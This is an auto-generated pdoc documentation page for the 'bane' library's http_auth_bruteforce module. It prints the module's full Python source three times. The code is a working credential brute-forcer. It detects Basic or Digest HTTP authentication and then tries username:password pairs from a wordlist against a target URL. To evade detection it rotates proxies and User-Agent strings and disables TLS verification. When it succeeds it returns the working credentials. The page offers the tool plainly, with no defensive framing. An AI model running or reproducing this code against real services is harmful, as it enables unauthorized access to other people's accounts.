 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.bruteforce.http_auth</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.bruteforce.utils import *

class http_auth_bruteforce:
    __slots__ = [&#34;logs&#34;, &#34;stop&#34;, &#34;finish&#34;, &#34;result&#34;]

    def __init__(
        self,
        u,
        word_list=[],
        threads_daemon=True,
        logs=True,
        domain=None,
        proxy=None,
        proxies=None,
        cookie=None,
        user_agent=None,
        timeout=10,
        headers={}
    ):
        self.stop = False
        self.logs = logs
        self.finish = False
        self.result = {}
        t = threading.Thread(
            target=self.crack,
            args=(
                u,
                domain,
                word_list,
                logs,
                proxy,
                proxies,
                cookie,
                user_agent,
                timeout,
                headers,
            ),
        )
        t.daemon = threads_daemon
        t.start()

    def done(self):
        return self.finish

    def crack(
        self, u, domain, word_list, logs, proxy, proxies, cookie, user_agent, timeout,headers
    ):
        if user_agent:
            us = user_agent
        else:
            us = random.choice(ua)
        hed = {&#34;User-Agent&#34;: us}
        if cookie:
            hed.update({&#34;Cookie&#34;: cookie})
        hed.update(headers)
        prox = None
        if proxy:
            prox = proxy#{&#34;http&#34;: &#34;http://&#34; + proxy, &#34;https&#34;: &#34;http://&#34; + proxy}
        if proxies:
            prox = random.choice(proxies)
            #prox = {&#34;http&#34;: &#34;http://&#34; + prox, &#34;https&#34;: &#34;http://&#34; + prox}
        try:
            if self.logs == True:
                print(&#34;[*]Checking Authentication Type:&#34;)
            resp = requests.Session().get(
                u, proxies=prox, headers=hed, verify=False, timeout=timeout
            )
            if &#34;basic&#34; in resp.headers[&#34;WWW-Authenticate&#34;].lower():
                if self.logs == True:
                    print(&#34;==&gt;Basic&#34;)
                auth_type = requests.auth.HTTPBasicAuth
            elif &#34;digest&#34; in resp.headers[&#34;WWW-Authenticate&#34;].lower():
                if self.logs == True:
                    print(&#34;==&gt;Digest&#34;)
                auth_type = requests.auth.HTTPDigestAuth
                &#34;&#34;&#34;elif &#39;ntlm&#39; in resp.headers[&#39;WWW-Authenticate&#39;].lower():
    if self.logs==True:
     print(&#34;==&gt;Ntlm&#34;)
    auth_type = requests_ntlm.HttpNtlmAuth
    if not domain:
     raise Exception(&#39;You need to specify a domain for &#34;Ntlm&#34; authentication !\n\nbane.http_auth_bruteforce(&#34;http://example.com&#34;,domain=&#34;example.com&#34;,.....)&#39;)&#34;&#34;&#34;
            else:
                if self.logs == True:
                    print(&#34;==&gt;Unknown type&#34;)
                self.finish = True
                return
        except:
            if self.logs == True:
                print(&#34;bane doesn&#39;t support this type of authentication&#34;)
            self.finish = True
            return
        for x in word_list:
            try:
                if self.stop == True:
                    self.finish = True
                    break
                username = x.split(&#34;:&#34;)[0]
                &#34;&#34;&#34;if domain and auth_type==requests_ntlm.HttpNtlmAuth:
     username=domain+&#39;\\&#39;+username&#34;&#34;&#34;
                password = x.split(&#34;:&#34;)[1]
                if self.logs == True:
                    print(&#34;[*]Trying: {} {}&#34;.format(username, password))
                prox = None
                if proxies:
                    prox = random.choice(proxies)
                if user_agent:
                    us = user_agent
                else:
                    us = random.choice(ua)
                hed = {&#34;User-Agent&#34;: us}
                if cookie:
                    hed.update({&#34;Cookie&#34;: cookie})
                r = requests.Session().get(
                    u,
                    auth=auth_type(username, password),
                    proxies=prox,
                    headers=hed,
                    verify=False,
                    timeout=timeout,
                )
                if (
                    (r.status_code == 200)
                    and (&#34;required&#34; not in r.text.lower())
                    and (&#34;wrong&#34; not in r.text.lower())
                    and (&#34;invalid&#34; not in r.text.lower())
                    and (&#34;denied&#34; not in r.text.lower())
                    and (&#34;unauthorized&#34; not in r.text.lower())
                ):
                    if self.logs == True:
                        print(&#34;[+]Success&#34;)
                    self.result = {u: username + &#34;:&#34; + password}
                    self.finish = True
                    break
                else:
                    if self.logs == True:
                        print(&#34;[-]Fail&#34;)
            except Exception as ex:
                if self.logs == True:
                    print(&#34;[-]Fail&#34;)
        self.finish = True</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.bruteforce.http_auth.http_auth_bruteforce"><code class="flex name class">
<span>class <span class="ident">http_auth_bruteforce</span></span>
<span>(</span><span>u, word_list=[], threads_daemon=True, logs=True, domain=None, proxy=None, proxies=None, cookie=None, user_agent=None, timeout=10, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class http_auth_bruteforce:
    __slots__ = [&#34;logs&#34;, &#34;stop&#34;, &#34;finish&#34;, &#34;result&#34;]

    def __init__(
        self,
        u,
        word_list=[],
        threads_daemon=True,
        logs=True,
        domain=None,
        proxy=None,
        proxies=None,
        cookie=None,
        user_agent=None,
        timeout=10,
        headers={}
    ):
        self.stop = False
        self.logs = logs
        self.finish = False
        self.result = {}
        t = threading.Thread(
            target=self.crack,
            args=(
                u,
                domain,
                word_list,
                logs,
                proxy,
                proxies,
                cookie,
                user_agent,
                timeout,
                headers,
            ),
        )
        t.daemon = threads_daemon
        t.start()

    def done(self):
        return self.finish

    def crack(
        self, u, domain, word_list, logs, proxy, proxies, cookie, user_agent, timeout,headers
    ):
        if user_agent:
            us = user_agent
        else:
            us = random.choice(ua)
        hed = {&#34;User-Agent&#34;: us}
        if cookie:
            hed.update({&#34;Cookie&#34;: cookie})
        hed.update(headers)
        prox = None
        if proxy:
            prox = proxy#{&#34;http&#34;: &#34;http://&#34; + proxy, &#34;https&#34;: &#34;http://&#34; + proxy}
        if proxies:
            prox = random.choice(proxies)
            #prox = {&#34;http&#34;: &#34;http://&#34; + prox, &#34;https&#34;: &#34;http://&#34; + prox}
        try:
            if self.logs == True:
                print(&#34;[*]Checking Authentication Type:&#34;)
            resp = requests.Session().get(
                u, proxies=prox, headers=hed, verify=False, timeout=timeout
            )
            if &#34;basic&#34; in resp.headers[&#34;WWW-Authenticate&#34;].lower():
                if self.logs == True:
                    print(&#34;==&gt;Basic&#34;)
                auth_type = requests.auth.HTTPBasicAuth
            elif &#34;digest&#34; in resp.headers[&#34;WWW-Authenticate&#34;].lower():
                if self.logs == True:
                    print(&#34;==&gt;Digest&#34;)
                auth_type = requests.auth.HTTPDigestAuth
                &#34;&#34;&#34;elif &#39;ntlm&#39; in resp.headers[&#39;WWW-Authenticate&#39;].lower():
    if self.logs==True:
     print(&#34;==&gt;Ntlm&#34;)
    auth_type = requests_ntlm.HttpNtlmAuth
    if not domain:
     raise Exception(&#39;You need to specify a domain for &#34;Ntlm&#34; authentication !\n\nbane.http_auth_bruteforce(&#34;http://example.com&#34;,domain=&#34;example.com&#34;,.....)&#39;)&#34;&#34;&#34;
            else:
                if self.logs == True:
                    print(&#34;==&gt;Unknown type&#34;)
                self.finish = True
                return
        except:
            if self.logs == True:
                print(&#34;bane doesn&#39;t support this type of authentication&#34;)
            self.finish = True
            return
        for x in word_list:
            try:
                if self.stop == True:
                    self.finish = True
                    break
                username = x.split(&#34;:&#34;)[0]
                &#34;&#34;&#34;if domain and auth_type==requests_ntlm.HttpNtlmAuth:
     username=domain+&#39;\\&#39;+username&#34;&#34;&#34;
                password = x.split(&#34;:&#34;)[1]
                if self.logs == True:
                    print(&#34;[*]Trying: {} {}&#34;.format(username, password))
                prox = None
                if proxies:
                    prox = random.choice(proxies)
                if user_agent:
                    us = user_agent
                else:
                    us = random.choice(ua)
                hed = {&#34;User-Agent&#34;: us}
                if cookie:
                    hed.update({&#34;Cookie&#34;: cookie})
                r = requests.Session().get(
                    u,
                    auth=auth_type(username, password),
                    proxies=prox,
                    headers=hed,
                    verify=False,
                    timeout=timeout,
                )
                if (
                    (r.status_code == 200)
                    and (&#34;required&#34; not in r.text.lower())
                    and (&#34;wrong&#34; not in r.text.lower())
                    and (&#34;invalid&#34; not in r.text.lower())
                    and (&#34;denied&#34; not in r.text.lower())
                    and (&#34;unauthorized&#34; not in r.text.lower())
                ):
                    if self.logs == True:
                        print(&#34;[+]Success&#34;)
                    self.result = {u: username + &#34;:&#34; + password}
                    self.finish = True
                    break
                else:
                    if self.logs == True:
                        print(&#34;[-]Fail&#34;)
            except Exception as ex:
                if self.logs == True:
                    print(&#34;[-]Fail&#34;)
        self.finish = True</code></pre>
</details>
<h3>Instance variables</h3>
<dl>
<dt id="bane.bruteforce.http_auth.http_auth_bruteforce.finish"><code class="name">var <span class="ident">finish</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
<dt id="bane.bruteforce.http_auth.http_auth_bruteforce.logs"><code class="name">var <span class="ident">logs</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
<dt id="bane.bruteforce.http_auth.http_auth_bruteforce.result"><code class="name">var <span class="ident">result</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
<dt id="bane.bruteforce.http_auth.http_auth_bruteforce.stop"><code class="name">var <span class="ident">stop</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
</dl>
<h3>Methods</h3>
<dl>
<dt id="bane.bruteforce.http_auth.http_auth_bruteforce.crack"><code class="name flex">
<span>def <span class="ident">crack</span></span>(<span>self, u, domain, word_list, logs, proxy, proxies, cookie, user_agent, timeout, headers)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def crack(
    self, u, domain, word_list, logs, proxy, proxies, cookie, user_agent, timeout,headers
):
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    prox = None
    if proxy:
        prox = proxy#{&#34;http&#34;: &#34;http://&#34; + proxy, &#34;https&#34;: &#34;http://&#34; + proxy}
    if proxies:
        prox = random.choice(proxies)
        #prox = {&#34;http&#34;: &#34;http://&#34; + prox, &#34;https&#34;: &#34;http://&#34; + prox}
    try:
        if self.logs == True:
            print(&#34;[*]Checking Authentication Type:&#34;)
        resp = requests.Session().get(
            u, proxies=prox, headers=hed, verify=False, timeout=timeout
        )
        if &#34;basic&#34; in resp.headers[&#34;WWW-Authenticate&#34;].lower():
            if self.logs == True:
                print(&#34;==&gt;Basic&#34;)
            auth_type = requests.auth.HTTPBasicAuth
        elif &#34;digest&#34; in resp.headers[&#34;WWW-Authenticate&#34;].lower():
            if self.logs == True:
                print(&#34;==&gt;Digest&#34;)
            auth_type = requests.auth.HTTPDigestAuth
            &#34;&#34;&#34;elif &#39;ntlm&#39; in resp.headers[&#39;WWW-Authenticate&#39;].lower():
if self.logs==True:
 print(&#34;==&gt;Ntlm&#34;)
auth_type = requests_ntlm.HttpNtlmAuth
if not domain:
 raise Exception(&#39;You need to specify a domain for &#34;Ntlm&#34; authentication !\n\nbane.http_auth_bruteforce(&#34;http://example.com&#34;,domain=&#34;example.com&#34;,.....)&#39;)&#34;&#34;&#34;
        else:
            if self.logs == True:
                print(&#34;==&gt;Unknown type&#34;)
            self.finish = True
            return
    except:
        if self.logs == True:
            print(&#34;bane doesn&#39;t support this type of authentication&#34;)
        self.finish = True
        return
    for x in word_list:
        try:
            if self.stop == True:
                self.finish = True
                break
            username = x.split(&#34;:&#34;)[0]
            &#34;&#34;&#34;if domain and auth_type==requests_ntlm.HttpNtlmAuth:
 username=domain+&#39;\\&#39;+username&#34;&#34;&#34;
            password = x.split(&#34;:&#34;)[1]
            if self.logs == True:
                print(&#34;[*]Trying: {} {}&#34;.format(username, password))
            prox = None
            if proxies:
                prox = random.choice(proxies)
            if user_agent:
                us = user_agent
            else:
                us = random.choice(ua)
            hed = {&#34;User-Agent&#34;: us}
            if cookie:
                hed.update({&#34;Cookie&#34;: cookie})
            r = requests.Session().get(
                u,
                auth=auth_type(username, password),
                proxies=prox,
                headers=hed,
                verify=False,
                timeout=timeout,
            )
            if (
                (r.status_code == 200)
                and (&#34;required&#34; not in r.text.lower())
                and (&#34;wrong&#34; not in r.text.lower())
                and (&#34;invalid&#34; not in r.text.lower())
                and (&#34;denied&#34; not in r.text.lower())
                and (&#34;unauthorized&#34; not in r.text.lower())
            ):
                if self.logs == True:
                    print(&#34;[+]Success&#34;)
                self.result = {u: username + &#34;:&#34; + password}
                self.finish = True
                break
            else:
                if self.logs == True:
                    print(&#34;[-]Fail&#34;)
        except Exception as ex:
            if self.logs == True:
                print(&#34;[-]Fail&#34;)
    self.finish = True</code></pre>
</details>
</dd>
<dt id="bane.bruteforce.http_auth.http_auth_bruteforce.done"><code class="name flex">
<span>def <span class="ident">done</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def done(self):
    return self.finish</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.bruteforce" href="index.md">bane.bruteforce</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.bruteforce.http_auth.http_auth_bruteforce" href="#bane.bruteforce.http_auth.http_auth_bruteforce">http_auth_bruteforce</a></code></h4>
<ul class="two-column">
<li><code><a title="bane.bruteforce.http_auth.http_auth_bruteforce.crack" href="#bane.bruteforce.http_auth.http_auth_bruteforce.crack">crack</a></code></li>
<li><code><a title="bane.bruteforce.http_auth.http_auth_bruteforce.done" href="#bane.bruteforce.http_auth.http_auth_bruteforce.done">done</a></code></li>
<li><code><a title="bane.bruteforce.http_auth.http_auth_bruteforce.finish" href="#bane.bruteforce.http_auth.http_auth_bruteforce.finish">finish</a></code></li>
<li><code><a title="bane.bruteforce.http_auth.http_auth_bruteforce.logs" href="#bane.bruteforce.http_auth.http_auth_bruteforce.logs">logs</a></code></li>
<li><code><a title="bane.bruteforce.http_auth.http_auth_bruteforce.result" href="#bane.bruteforce.http_auth.http_auth_bruteforce.result">result</a></code></li>
<li><code><a title="bane.bruteforce.http_auth.http_auth_bruteforce.stop" href="#bane.bruteforce.http_auth.http_auth_bruteforce.stop">stop</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>